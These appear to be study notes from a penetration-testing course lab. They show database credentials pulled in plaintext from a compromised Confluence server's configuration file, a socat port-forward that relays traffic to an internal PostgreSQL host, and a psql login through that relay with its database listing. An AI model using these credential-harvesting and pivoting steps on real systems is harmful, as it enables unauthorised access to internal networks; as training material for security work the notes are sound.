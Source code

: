 ```hlt:1,11,13,12
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
...
  </properties>
</confluence-configuration>
confluence@confluence01:/opt/atlassian/confluence/bin$
```

Username: `postgres` Password: `D@t4basePassw0rd!`

IP of database: `postgresql://10.4.50.215:5432`

- There's no PostgreSQL client so can't connect directly to Postgres for this shell. 

- Kali machine does have psql installed. 

- No firewall between Kali and the web server. 

Because of this, port forwarding makes sense. 

### Port Forwarding with Socat 

[Socat](http://www.dest-unreach.org/socat/doc/socat.html)

CONFLUENCE01 listens on a port on WAN interface and forwards all packets received to port on PGDATABASE01

![Figure 2: The way we expect our port forward to work](https://static.offsec.com/offsec-courses/PEN-200/imgs/prat2/0821666b2826564e07661eba0550c37a-PRAT2_1_1_PortForwardPlan.png)

In this scenario, Socat is already installed on CONFLUENCE01

Running the Socat port forward command on CONFLUENCE01.

`socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432`

Using psql on kali with postgres user credentials to connect to CONFLUENCE01 on port 2345.

`psql -h 192.168.50.63 -p 2345 -U postgres`

Run `\l` to list all databases 

```
postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Continuing enumeration..
